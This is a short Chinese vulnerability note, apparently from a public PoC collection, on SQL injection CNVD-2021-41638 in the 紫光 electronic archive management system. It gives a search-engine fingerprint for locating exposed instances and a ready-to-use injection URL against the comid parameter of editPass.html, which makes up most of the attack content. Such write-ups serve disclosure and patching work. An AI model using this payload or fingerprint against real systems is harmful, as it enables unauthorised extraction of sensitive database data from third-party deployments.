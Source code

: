 # 紫光档案管理系统 editPass.html SQL注入漏洞 CNVD-2021-41638

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。
紫光电子档案管理系统存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

<a-checkbox checked>紫光电子档案管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="紫光档案管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1633168580711-690386c5-48bd-4162-b6ed-763c9f57ee73.png)

验证POC

```java
/login/Login/editPass.html?comid=extractvalue(1,concat(char(126),md5(1)))
```

![img](../../../.vuepress/public/img/1633168707994-229d0a0c-dedf-4d6b-9554-da2d9015767a.png)